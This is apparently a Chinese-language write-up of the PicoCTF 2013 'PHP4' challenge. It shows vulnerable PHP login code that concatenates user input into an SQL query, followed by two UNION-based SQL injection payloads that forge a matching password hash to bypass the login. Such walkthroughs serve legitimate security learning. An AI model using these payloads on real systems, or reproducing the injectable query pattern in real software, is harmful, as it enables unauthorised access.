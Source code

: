 ## PicoCTF 2013:PHP4

**分类：**脚本开发

## write-up

根据提示，我们可以访问`code.txt`该文件

```php
 <?php
        if($_POST['user'] && $_POST['pass']) {
            mysql_connect("localhost", “XXXXXXX”, “XXXXXXXX”) or die("Could not connect:" . mysql_error());
			mysql_select_db("ctfhub");
            $user = $_POST['user'];
            $pass = md5($_POST['pass']);
			$sql="select pw from ctfhub where user='$user'";
			$result = mysql_query($sql);
            $query = @mysql_fetch_array($result);

            if(($query['pw']) && (!strcasecmp($pass, $query['pw']))) {
                echo "<p>Logged in! Key: XXXXXXXXXXXXXXXXXX</p>";
            }
            else {
                echo("<p>Log in failure!</p>");
            }
        }
    ?>
```

这道题目最重要的条件判断语句为：`($query['pw']) && (!strcasecmp($pass, $query['pw']))`。查看代码，我们发现存在注入，我们可以构造如下语句完成挑战。

`payload1:user=' union select 'c18732f48a96c40d40a06e74b1305706'#&pass=ctfhub`

`payload2:user=' union select md5('ctfhub')#&pass=ctfhub`

